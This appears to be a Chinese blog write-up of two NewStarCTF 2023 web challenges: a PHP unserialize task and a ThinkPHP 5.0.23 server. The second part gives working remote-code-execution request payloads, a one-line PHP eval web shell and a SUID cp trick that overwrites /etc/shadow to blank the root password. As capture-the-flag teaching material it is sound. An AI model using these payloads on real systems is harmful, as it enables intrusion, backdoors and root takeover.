 ```yaml
---
title: NewStarCTF2023 week5 web前两题
date: 2023-10-30 16:48 +0800
categories: [CTF,WEB]
tags: [web]
img_path: /assets/images/
---
```




## Unserialize Again

源题目内容

```php
<?php
highlight_file(__FILE__);
error_reporting(0);  
class story{
    private $user='admin';
    public $pass;
    public $eating;
    public $God='false';
    public function __wakeup(){
        $this->user='human';
        if(1==1){
            die();
        }
        if(1!=1){
            echo $fffflag;
        }
    }
    public function __construct(){
        $this->user='AshenOne';
        $this->eating='fire';
        die();
    }
    public function __tostring(){
        return $this->user.$this->pass;
    }
    public function __invoke(){
        if($this->user=='admin'&&$this->pass=='admin'){
            echo $nothing;
        }
    }
    public function __destruct(){
        if($this->God=='true'&&$this->user=='admin'){
            system($this->eating);
        }
        else{
            die('Get Out!');
        }
    }
}                 
if(isset($_GET['pear'])&&isset($_GET['apple'])){
    // $Eden=new story();
    $pear=$_GET['pear'];
    $Adam=$_GET['apple'];
    $file=file_get_contents('php://input');
    file_put_contents($pear,urldecode($file));
    file_exists($Adam);
}
else{
    echo '多吃雪梨';
} 
```

题目这里的考点应该 phar 反序列化，但是可能出题人出的不够严谨，这里出现了非预期

非预期可以直接命令执行，获取flag

![Unserialize Again_非预期exp](week5.assets/Unserialize Again_非预期exp.jpg)

![Unserialize Again_非预期结果](week5.assets/Unserialize Again_非预期结果.jpg)



## Final

一个thinkphp 5.0.23，存在命令执行漏洞。

过滤了 system（phpinfo 可以正常执行），之后是低权

```
_method=__construct&filter[]=phpinfo&method=get&server[REQUEST_METHOD]=1
```



![image-20231030131251182](week5.assets/image-20231030131251182.png)

payload：

```
GET
/index.php?s=captcha
POST
_method=__construct&filter[]=passthru&method=get&server[REQUEST_METHOD]=id
```

写马 进行提权，后面使用哥斯拉 超级终端。

```
echo '<?php @eval($_POST[12]); ?>' > 1.php
```

查看suid 存在cp，我们可以直接cp shadow 查看 root 密码，这里的root 没有显示密码，我们直接修改shadow 

![image-20231030162316084](week5.assets/image-20231030162316084.png)

![image-20231030164151705](week5.assets/image-20231030164151705.png)



cp suid payload

```
LFILE=file_to_write
echo "DATA" | ./cp /dev/stdin "$LFILE"
```

直接copy 到命令行

```
# root:*:17847:0:99999:7:::

LFILE=/etc/shadow
echo "root::17847:0:99999:7:::" | /bin/cp /dev/stdin "$LFILE"

su root
cat /flag*
```

![image-20231030164051944](week5.assets/image-20231030164051944.png)
